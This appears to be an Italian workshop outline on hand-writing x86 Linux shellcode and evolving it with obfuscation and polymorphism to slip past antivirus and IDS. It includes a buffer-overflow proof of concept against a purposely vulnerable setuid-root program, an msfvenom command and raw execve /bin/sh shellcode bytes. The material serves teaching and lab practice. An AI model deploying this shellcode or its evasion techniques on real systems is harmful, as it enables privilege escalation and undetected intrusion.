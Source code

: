 # x86 shellcoding cakestar

## Introduzione

Quando facciamo un penetration test, il più delle volte utilizziamo exploit già
pronti o usiamo strumenti come msvfenom per creare un payload con qualche
opzione particolare.

Esistono situazioni dove hai bisogno di essere più creativo: devi evitare
l'antivirus, devi nasconderti dall'IDS o semplicemente vuoi divertirti un po'
ed avere il pieno controllo del codice che sarà eseguito sulla macchina.

Ecco, in questo talk vedremo come creare 2 shellcode veramente semplici in
ambiente Linux x86 e, partendo da un codice funzionante, andremo ad aggiungere
tecniche di offuscamento, egg hunting e polimorfismo per far evolvere il nostro
payload.

Il bypass dell'antivirus forse non sarà garantito, ma il divertimento... quello
sì.

## A chi è rivolto?

Penetration tester Analisti SOC Sviluppatori

## Livello di difficoltà

BASSO

## Skill richieste

* Conoscenze base di assembler x86
* Sapere cos'è una _system call_
* Un pizzico di python o ruby o il linguaggio che più vi piace a cui accodare
  il nostro shellcode.

## Cosa mi serve

* Una macchina virtuale Linux per lo sviluppo (scriveremo assembler per x86, quindi a 32 bit).
  * Ubuntu 20.04
  * apt install apt install python3 gcc-multilib nasm gdb
  * peda: https://github.com/longld/peda
  * clonate l'archivio https://github.com/thesp0nge/HackInBoSafeEdition
  * Disabilito ASLR "echo 0 > /proc/sys/kernel/randomize_va_space"

## Preparo la vittima

Ho bisogno di compilare il programma vittima per iniziare le esercitazioni.

``` sh
$ ./compile.sh pwnme.c
$ sudo "chown root:root pwnme"
$ sudo "chmod +s pwnme"
```

## L'inizio della nostra storia

Da una analisi precedente sappiamo che il software pwnme è vulnerabile a buffer
overflow. Il contenuto del file pwnme.txt, necessario al funzionamento del
nostro tool, vieme copiato in una variabile, purtroppo senza fare un controllo
sulla lunghezza dei dati letti da file.

Nel caso il file di testo sia costituito da troppi caratteri, dopo 140 byte
avremmo la sovrascittura del registro EIP e di fatto, l'inizio della nostra
storia.

Il PoC del nostro exploit sarà questo:
``` python
#!/usr/bin/env python3

import os;

# 0x5655625c
eip="\x5c\x62\x55\x56"
shellcode = "A"*140+eip
f = open("pwnme.txt","w")
f.write(shellcode)
f.close()
```

Abbiamo provato con metasploit a generare un payload con il comando:

```sh
$ msfvenom -p linux/x86/exec CMD=/bin/sh -f elf -o a.out
```

Purtroppo veniamo individuati da alcuni antivirus, quindi dobbiamo trovare un
altro modo per scrivere il nostro shellcode.

![Il payload di msfvenom su VirusTotal](/images/msfvenom.png)

### Disclaimer

Questo talk non è su come trovare un buffer overflow ma su come customizzare il
nostro shellcode. Il programma vulnerabile quindi è stato scritto introducendo
la vulnerabilità in maniera forzata, in particolare:

* è stato aggiunto dell'inline assembler per mettere a disposizione
  l'istruzione JMP ESP
* avendo disattivato la randomizzazione dello stack, ho il nuovo valore del
  registro EIP sempre fisso

Queste tecniche possono ingannare strumenti basati su signature. Strumenti
evoluti che provano ad eseguire il codice in sandbox potrebbero comunque
riconoscere i nostri payload. Un security engineer che troverà il payload e ne
farà il reverse sarà comunque in grado di riconoscerne il contenuto malevolo.

## Shellcode

Andremo ad analizzare lo shellcode che esegue "/bin/sh" e queste saranno le tappe del nostro viaggio:
* v1.0: da dove arriva
   "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"?
   (https://www.virustotal.com/gui/file/d2b927c46e08ddb7f4d8471247e7008f7200ca24962094d343248e9a7a0fe870/detection)
* v2.0: manovre evasive! (https://www.virustotal.com/gui/file/93f5fc907caa0a5e00e320b59a13059e28c243f13c75ef5c5309eff23dfe15be/detection)
* v2.1: diamoci dei privilegi (https://www.virustotal.com/gui/file/1596d2642b5656ee0e8cf137c097a308329d3cbdcb238c921a605e0b148b9959/detection)
* v2.5: togliamo i null byte (https://www.virustotal.com/gui/file/d98b0c36e6dacd22f4f5b1192b7d630221346fb5b2a177eaa00dc1a944aa232f/detection)
* v3.0: nascondino


